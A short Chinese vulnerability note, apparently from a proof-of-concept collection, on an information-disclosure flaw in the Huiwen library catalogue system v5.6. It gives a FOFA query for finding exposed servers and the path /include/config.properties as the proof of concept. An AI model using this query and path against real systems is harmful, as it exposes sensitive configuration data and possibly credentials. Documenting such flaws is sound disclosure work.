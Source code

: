 # 汇文 图书馆书目检索系统 config.properties 信息泄漏漏洞

## 漏洞描述

汇文 图书馆书目检索系统 /include/config.properties 文件中包含敏感信息，攻击者可以直接访问获取信息

## 漏洞影响

```
汇文v5.6
```

## FOFA

```
app="汇文软件-书目检索系统"
```

## 漏洞复现

主页面

![image-20220525144642895](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251446991.png)

验证POC

```
/include/config.properties
```

![image-20220525144530183](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251445229.png)